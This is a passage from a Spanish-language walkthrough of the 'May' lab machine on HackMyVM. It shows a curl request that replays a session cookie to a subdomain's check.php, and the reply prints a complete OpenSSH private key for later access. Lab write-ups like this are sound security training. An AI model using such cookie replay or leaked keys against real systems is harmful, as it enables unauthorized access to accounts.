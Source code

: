 ![sshMayMessage](/assets/img/imgs/may/sshMayMessage.png)

No puede ser, esto sí es mala suerte, el usuario no existe o la contraseña no es la misma. Bueno, habrá que probar otros métodos.

# Movimiento Lateral
### Shell
Por suerte me fijé en las **`cookies`** cuando inicié sesión en el portal, fíjense:

![portalMayCookies](/assets/img/imgs/may/portalMayCookies.png)

Se me hizo algo extrño el nombre de la **`cookie`**, así que probé de acceder al subdominio **`ssh`** con ella:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/May]
└─# curl -H "Cookie: Sweetcookie=HMVHMXHMVHMXHMVHMXHMVHMX" "http://ssh.may.hmv/check.php"
<pre>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA3HwQ6G67tSrcxTN2oOKplVae0b+gVe0x/btFSgGJy2bMoWc14qBO
jE7cEcO8tEB85mI3ftByjp6ZVcQWdmEFvqDjeiGvucu0cnO/kTYZGue34/P0+3TJ4Dn92l
L5neeFJC37yHtgxGv1XZ3aQ6mN/XY6okPpjhECZieH8849P+vclhBsXcZPNwZ1vkXAinaY
T6e1vDJA94l4ioDgj/S48gFuR1OExpsxM+c1uggIcd/GgFyVHy7i/hdm78p09vnmWj8sw2
XUd8XGIJOZRHMx0xAw2ezkHC93buwL2KRxez9e5nsLMfKUYNBd7T/16AfS6lRvkvCBPAJs
aBOPbycNKQAAA8BCdu/2Qnbv9gAAAAdzc2gtcnNhAAABAQDcfBDobru1KtzFM3ag4qmVVp
7Rv6BV7TH9u0VKAYnLZsyhZzXioE6MTtwRw7y0QHzmYjd+0HKOnplVxBZ2YQW+oON6Ia+5
y7Ryc7+RNhka57fj8/T7dMngOf3aUvmd54UkLfvIe2DEa/VdndpDqY39djqiQ+mOEQJmJ4
fzzj0/69yWEGxdxk83BnW+RcCKdphPp7W8MkD3iXiKgOCP9LjyAW5HU4TGmzEz5zW6CAhx
38aAXJUfLuL+F2bvynT2+eZaPyzDZdR3xcYgk5lEczHTEDDZ7OQcL3du7AvYpHF7P17mew
sx8pRg0F3tP/XoB9LqVG+S8IE8AmxoE49vJw0pAAAAAwEAAQAAAQEAuDe81Mc4dG1Emkue
cVwQfuMpvWxTZZfSLgKbKPNSEy1oCe83OYvhNR/qhbk6YIyFDuS/I2i8XmcrDFrSvcPgzd
6VUYT10tHdiccmJwjBPxaeMYqyhKqWxY8Oh6zOPN2lA46cEWzsdBETqE1sgR4Ysc5nvQ3r
BTU3AO1EjTMjP9Sfo+GbbZq292h/WUlN3+34VngnTZg7RM2th4tk00sc07iiRLAh3DQ9Yo
7S8QWJQhVJAO/3UmhmsK8Sb44BJ/cYZd+SC6BV+RwsnrS+JyeUs1zctJzBSpxX6+9ko4oN
VGIWnYce1Jxrz1cxgwnEEsb2BnamTyRAJoWW4fU7NYzIkQAAAIANhgRfAVu6xVNyEXXOFg
263Uqp45OG8qhhONwk5wzJUE3GiD9mj1YZMYejEfTGoTwk2x9DAgQhk5cAAPrRJpC221NJ
72B0fllexMzO8RfizG345S04i40vjOgq+/iweU2+pRccJNFlRSZgKl8FJ1zmpP5fAQGQVo
NVgkzCDsu/MwAAAIEA8Q4y6353GpFasya8P60/8lOAl8RglmnS56Yt9kjdIBQvUVKDPPNP
qy9Ki3mJXLTbr+dPi2yaMTGr02rYVwGhLmykswXPQPzcdeuxt4ufYld8G3UgxNejsiYqWT
AkdYBaM6g2M/J/MWQY6WLhXMQhK75C6ZCbsrR3F8ffi0XF8TUAAACBAOonYvqdEgrAiYK/
l1iMe5oHRwklV/d5eEM/8bTl0MgDEhMYRLkmkuuhOb6rVIz3y3PVmE0zeQa2u6qj0stmLm
34pXoHjrR2KlUk5pvoXbcvm8TvnHypnIwls1QL5WsHMGNjt/AbboqLkA2m+v9IEEIww40w
8fGOoN87zX40QP6lAAAACW1hcmllQG1heQE=
-----END OPENSSH PRIVATE KEY-----
</pre>
```
